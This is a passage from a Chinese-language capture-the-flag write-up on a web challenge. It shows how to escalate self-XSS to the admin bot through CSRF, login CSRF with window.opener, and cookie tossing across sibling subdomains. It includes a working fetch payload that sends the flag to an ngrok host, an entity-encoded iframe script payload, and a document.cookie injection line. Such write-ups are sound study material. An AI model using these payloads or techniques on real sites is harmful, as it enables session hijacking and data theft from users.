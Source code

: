 ```
fetch('/flag').then(r=>r.text()).then(t=>top.location='https://49dc-140-115-216-194.ngrok.io?'+t))]/*
```

bio:

```
<iframe srcdoc="&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3d;&#x22;&#x2f;&#x65;&#x78;&#x70;&#x6f;&#x72;&#x74;&#x3f;&#x66;&#x6f;&#x72;&#x6d;&#x61;&#x74;&#x3d;&#x6d;&#x61;&#x72;&#x6b;&#x64;&#x6f;&#x77;&#x6e;&#x22;&#x3e;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;"></iframe>*/
```

不過到這邊也只達成了 Self-XSS，要找個方法讓這個 XSS 也能應用在 Bot 上面才行。這個部分我知道的目前除了 intended 的一個解以外還有兩個 unintended 的解，我是用其中一個 unintended 解的。

## Intended

> 我用的不是這個方法，所以這邊只有簡單說明

題目提示就有說 CSRF，檢查一樣可以知道有 `SameSite=None`，所以我們可以 `POST /api/update` 去 CSRF 設定 admin 的內容到前面可以 XSS 的 payload 即可。不過 POST 的結果會是個 json，所以自己的頁面上可以利用 `window.open` 去開多個 tab，然後一個頁面去 CSRF，另一個頁面 delay 一下之後再讓它去瀏覽 `https://profile.chal.h4ck3r.quest/` 就有 flag 了。

## Unintended 1

> 我用的不是這個方法，所以這邊只有簡單說明

這個一樣是 CSRF，不過方向不太一樣，就算是 `SameSite=Lax` 應該也有用。這次是利用 CSRF 去 `POST /login`，讓 admin 去 login 自己的帳號然後觸發 XSS。這個做法有個問題在於 `/flag` 需要的是 admin 的 cookie，`POST /login` 之後就會把 cookie 給蓋掉了，就算 XSS 也拿不到 flag。

這邊的一個做法是在 CSRF **之前**讓頁面上的一個 iframe 載入 `https://profile.chal.h4ck3r.quest/flag`，然後 `window.open` 於新分頁 `POST /login` 觸發 XSS，只是這次 XSS 的內容會從 `window.opener.frames[0].document.body.textContent` 拿 flag 而已。

不用 iframe 而單純用 `window.opener` chain 起來也是可以做到，參考 [pbctf 2021 TBDXSS](https://blog.maple3142.net/2021/10/11/pbctf-2021-writeups/#tbdxss)。

## Unintended 2

> 這個是我真正使用的作法

可以注意到這題的 domain 是 `profile.chal.h4ck3r.quest`，而另一題 Imgura 是 `imgura.chal.h4ck3r.quest`，兩個網站是 `chal.h4ck3r.quest` 底下的不同 subdomain。

顯然，`chal.h4ck3r.quest` 不在 [Public Suffix List](https://publicsuffix.org/) 之中，儘管不能直接繞過同源政策，但兩個 domain 還是能在一定程度下產生一些影響，例如修改 cookie。

`imgura.chal.h4ck3r.quest` 雖然沒辦法直接改 `profile.chal.h4ck3r.quest` 的 cookie，但還修改 `chal.h4ck3r.quest` 的 cookie 倒是沒有問題。

此時如果用 `document.cookie = 'session=peko; domain=chal.h4ck3r.quest; path=/2f/'`，下次瀏覽 `https://profile.chal.h4ck3r.quest/%2f/` 的時候所用的 cookie 將會是
`session=peko`。這是因為瀏覽器(至少 Chromium 會這樣)會優先挑選比較 specific 的 path。

所以只要把 `/%2f/` 和 `/export` 兩個 path 都改成你 self xss 的 session，之後重新瀏覽到 `https://profile.chal.h4ck3r.quest/%2f/` 去的時候就能觸發 XSS。
